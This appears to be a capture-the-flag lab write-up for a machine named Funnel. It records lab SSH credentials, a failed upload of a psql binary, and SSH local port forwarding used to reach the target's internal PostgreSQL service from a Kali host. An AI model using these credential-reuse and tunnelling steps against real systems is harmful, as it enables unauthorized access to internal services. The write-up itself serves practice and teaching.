

localhost:postgresql is running on port 5432

ssh creds:
- christine@10.129.172.153
- funnel123#!#

```
christine@funnel:~$ which psql
christine@funnel:~$ psql -h

Command 'psql' not found, but can be installed with:

apt install postgresql-client-common
Please ask your administrator.

```

#### Static binary upload attempt
```
Attacker
┌──(kali㉿kali)-[~]
└─$ scp /usr/bin/psql christine@10.129.88.196:
christine@10.129.88.196's password: 
psql                                                                                                                       100%   10KB  73.7KB/s   00:00  

# Victim
christine@funnel:~$ ./psql -U christine -p 5432
Can't locate PgCommon.pm in @INC (you may need to install the PgCommon module) (@INC contains: /etc/perl /usr/local/lib/x86_64-linux-gnu/perl/5.30.0 /usr/local/share/perl/5.30.0 /usr/lib/x86_64-linux-gnu/perl5/5.30 /usr/share/perl5 /usr/lib/x86_64-linux-gnu/perl/5.30 /usr/share/perl/5.30 /usr/local/lib/site_perl /usr/lib/x86_64-linux-gnu/perl-base) at ./psql line 22.
BEGIN failed--compilation aborted at ./psql line 22.
```
## Run psql using port forwarding
Since the victim machine doesn't have psql, the attacking machine can use local port forwarding to use the attacker's psql binary.


On attacker, confirm psql is installed
```
┌──(kali㉿kali)-[~]
└─$ which psql                            
/usr/bin/psql
```

On attacking machine, local port forward
```
┌──(kali㉿kali)-[~]
└─$ ssh -L 1337:localhost:5432 christine@10.129.172.153
christine@10.129.172.153's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

<SNIP>

Last login: Thu Aug 14 23:52:29 2025 from 10.129.172.153


```

Confirming connection on attacker, and connect :)
```
┌──(kali㉿kali)-[~]
└─$ netstat -tupln | grep 1337
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      18218/ssh           
tcp6       0      0 ::1:1337                :::*                    LISTEN      18218/ssh      

┌──(kali㉿kali)-[~]
└─$ psql -U christine -p 1337 -h localhost 
Password for user christine: 
psql (17.5 (Debian 17.5-1), server 15.1 (Debian 15.1-1.pgdg110+1))
Type "help" for help.

christine=# 
                  
```

### Enumerating databases



See [[Funnel/10 - Loot/10 - Loot|10 - Loot]] for the flag 